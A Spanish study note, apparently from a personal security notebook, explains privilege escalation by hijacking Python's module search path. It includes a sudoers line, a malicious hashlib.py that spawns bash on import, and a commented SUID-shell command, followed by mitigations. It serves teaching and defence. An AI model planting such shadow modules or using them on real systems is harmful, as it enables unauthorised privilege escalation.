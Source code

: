 ```yaml
---
Tema: "[[Escalada de Privilegios]]"
Herramientas: "[[locate]]"
---
```

# 🔐 Explotación de Rutas de Importación en Python 

---

## 📚 Teoría

La vulnerabilidad que exploraremos se basa en cómo Python maneja la importación de módulos a través del `sys.path`. Cuando Python busca un módulo para importar, lo hace siguiendo un orden específico de directorios definidos en esta lista.

> [!info] ¿Qué es sys.path?
> `sys.path` es una lista de directorios que Python busca cuando importa un módulo. El primer elemento (`''`) representa el directorio actual donde se ejecuta el script.

La prioridad de búsqueda es crucial: Python importará el primer módulo que encuentre con el nombre solicitado. Si podemos escribir en alguno de los directorios al inicio de esta lista, podemos hacer que Python cargue nuestro módulo malicioso en lugar del legítimo.

**Esto es particularmente peligroso cuando:**
- Se ejecutan scripts con privilegios elevados
- Se utilizan permisos de `sudo` para ejecutar código Python
- No se valida adecuadamente el entorno de ejecución

---

## 💻 Práctica

### Contexto
Tenemos dos usuarios en el sistema:
- `liskov` (usuario con más privilegios)
- `n1krov` (nuestro usuario)

### Configuración de Sudo

En el archivo `/etc/sudoers` se ha establecido que podemos ejecutar un script Python específico como el usuario `liskov`:

```sh
n1krov ALL=(liskov) NOPASSWD: /usr/bin/python3 /tmp/ejemplo.py
```

### Script Original (creado por liskov)

```python
import hashlib
if __name__=='__main__':
	cadena="hola esta es una cadena"
	print(hashlib.md5(cadena.encode()).hexdigest())
```

### Analizando la Vulnerabilidad

El problema radica en cómo Python busca módulos para importarlos. Examinemos el `sys.path`:

```bash
python -c 'import sys; print(sys.path)'
```

Esto nos muestra:
```
['', '/usr/lib/python313.zip', '/usr/lib/python3.13', '/usr/lib/python3.13/lib-dynload', '/usr/lib/python3.13/site-packages']
```

> [!warning] Punto Vulnerable
> El primer elemento `''` representa el directorio actual desde donde se ejecuta el script. Si tenemos acceso de escritura a este directorio, podemos colocar nuestros propios módulos que serán importados antes que los del sistema.

### Localizando el Módulo Original

Primero, verifiquemos dónde está ubicado el módulo `hashlib` legítimo:

```bash
locate hashlib
```

Resultado: `/usr/lib/python3.13/hashlib.py`

Esto confirma que el módulo legítimo está en una de las rutas del `sys.path`, pero no en la primera posición.

### Explotando la Vulnerabilidad

Creamos nuestro propio módulo malicioso llamado `hashlib.py` y lo colocamos en `/tmp/`:

```python
import os
if __name__=='__main__':
	# para tener una shell
	# os.system("cp /bin/sh /tmp/sh; chmod +xs /tmp/sh")
	os.system("bash")
```

### Explicación de la Explotación

1. Cuando ejecutamos `sudo -u liskov /usr/bin/python3 /tmp/ejemplo.py`:
2. Python busca el módulo `hashlib` siguiendo el orden de `sys.path`
3. El directorio actual es `/tmp/`, donde está nuestro `hashlib.py` malicioso
4. Python importa nuestro módulo en lugar del legítimo
5. Aunque nuestro código no se ejecuta directamente en la importación, podemos modificarlo para que sí lo haga:

> [!example] Versión mejorada del exploit
> ```python
> import os
> 
> # Este código se ejecuta al importar el módulo
> os.system("bash")
> 
> if __name__=='__main__':
> 	pass
> ```

---

## 🛡️ Mitigaciones

Para prevenir este tipo de ataques:

1. No ejecutar scripts Python con privilegios elevados en directorios con permisos de escritura para usuarios no confiables
2. Utilizar entornos virtuales aislados
3. Establecer explícitamente `PYTHONPATH` antes de ejecutar scripts sensibles
4. Considerar el uso de módulos como `importlib` con rutas absolutas

>[!tip] Consejo de Seguridad
>Siempre verifica la integridad del entorno antes de ejecutar código con privilegios elevados.

---